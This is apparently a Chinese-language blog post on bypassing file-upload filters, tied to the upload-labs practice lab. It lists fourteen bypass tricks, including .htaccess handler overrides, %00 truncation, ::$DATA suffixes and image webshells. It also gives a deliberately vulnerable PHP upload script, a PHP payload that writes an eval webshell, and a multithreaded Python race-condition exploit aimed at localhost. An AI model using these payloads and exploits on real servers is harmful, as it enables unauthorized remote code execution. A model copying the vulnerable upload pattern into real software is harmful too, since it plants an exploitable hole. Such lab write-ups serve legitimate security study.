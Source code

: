 ```yaml
---
layout:     post
title:      上传漏洞
date:       2019-1-13
author:     Wh0ale
header-img: img/1.jpg
---
```


![](https://ws1.sinaimg.cn/large/b6de3d7dly1fz2xp9fu8cj20fe0e6qdy.jpg)

上传姿势：

1.前端绕过

2.content-type: image/hif

3.黑名单绕过   1.phtml

4..htaccess       所有文件都会解析为php，然后再上传图片马，就可以解析：

SetHandler application/x-httpd-php

5.大小写绕过

6.可在后缀名中加空绕过

7.没有对后缀名进行去”.”处理

8.没有对后缀名进行去”::$DATA”处理

9.info.php. . （点+空格+点），经过处理后，文件名变成info.php.，

10.后缀名替换为空，于是可以利用双写绕过

11.$img_path直接拼接，因此可以利用%00截断绕过

12.在二进制中进行修改，因为post不会像get对%00进行自动解码

13.图片马

14.修改文件头



**竞争上传**

演示代码：

```php
<?php
$allowtype = array("gif","png","jpg");
$size = 10000000;
$path = "./";

$filename = $_FILES['file']['name'];

if(is_uploaded_file($_FILES['file']['tmp_name'])){
    if(!move_uploaded_file($_FILES['file']['tmp_name'],$path.$filename)){
        die("error:can not move");
    }
}else{
    die("error:not an upload file！");
}
$newfile = $path.$filename;
echo "file upload success.file path is: ".$newfile."\n<br />";

if($_FILES['file']['error']>0){
    unlink($newfile);
    die("Upload file error: ");
}
$ext = array_pop(explode(".",$_FILES['file']['name']));
if(!in_array($ext,$allowtype)){
    unlink($newfile);
    die("error:upload the file type is not allowed，delete the file！");
}
?>
```



首先将文件上传到服务器，然后检测文件后缀名，如果不符合条件，就删掉，我们的利用思路是这样的，首先上传一个php文件，内容为：

copy.php

```php
<?php fputs(fopen("./info.php", "w"), '<?php @eval($_POST["drops"]) ?>'); ?>
```

当然这个文件会被立马删掉，所以我们使用多线程并发的访问上传的文件，总会有一次在上传文件到删除文件这个时间段内访问到上传的php文件，一旦我们成功访问到了上传的文件，那么它就会向服务器写一个shell。利用代码如下：

```php
import os
import requests
import threading

class RaceCondition(threading.Thread):
    def __init__(self):
        threading.Thread.__init__(self)
        self.url = "http://127.0.0.1:8080/upload/shell0.php"
        self.uploadUrl = "http://127.0.0.1:8080/upload/copy.php"

    def _get(self):
        print('try to call uploaded file...')
        r = requests.get(self.url)
        if r.status_code == 200:
            print("[*]create file info.php success")
            os._exit(0)

    def _upload(self):
        print("upload file.....")
        file = {"file":open("shell0.php","r")}
        requests.post(self.uploadUrl, files=file)

    def run(self):
        while True:
            for i in range(5):
                self._get()
            for i in range(10):
                self._upload()
                self._get()

if __name__ == "__main__":
    threads = 20

    for i in range(threads):
        t = RaceCondition()
        t.start()

    for i in range(threads):
        t.join()
```

经过几次尝试后成功成功写入shell



reference：

[Upload-lab 先知](https://xz.aliyun.com/t/2435)

<https://github.com/c0ny1/upload-labs>